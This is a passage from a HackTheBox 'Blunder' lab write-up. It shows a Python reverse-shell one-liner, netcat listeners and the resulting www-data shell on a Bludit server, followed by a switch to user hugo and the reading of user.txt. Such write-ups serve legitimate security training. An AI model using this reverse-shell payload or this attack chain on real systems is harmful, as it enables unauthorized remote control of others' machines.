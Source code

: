 And this payload to the target machine by starting a `python3 -m http.server` on our attacking machine and using `wget` on the target machine. Once, the file is downloaded we can change it's permissions to executable and run it. But even this does not work.

Finally, I had some help from [Gray-0men](https://github.com/Gray-0men), who suggested me to start a python reverse shell from the unstable shell using the payload:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.x.x",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

We can now start another listener on port 443 using the command `nc -nvlp 443` and run the above command with our attacking machine's IP address on the target machine:

On target machine's previously obtained shell:

```
┌─[tester@parrot-virtual]─[~/Desktop/GitHub/Writeups/HackTheBox/Easy/blunder]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.10.191] 59284
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your-ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

On attacking machine:

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/cyberhacktics]
└──╼ $sudo nc -nvlp 443
[sudo] password for tester: 
listening on [any] 443 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.10.191] 53498
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ whoami
whoami
www-data
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ pwd
pwd
/var/www/bludit-3.9.2/bl-content/tmp/temp
```

We can now switch the user to 'Hugo' as:

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ su hugo           
su hugo
Password: 

hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ cd /home/hugo
cd /home/hugo
hugo@blunder:~$ cat user.txt
cat user.txt
```
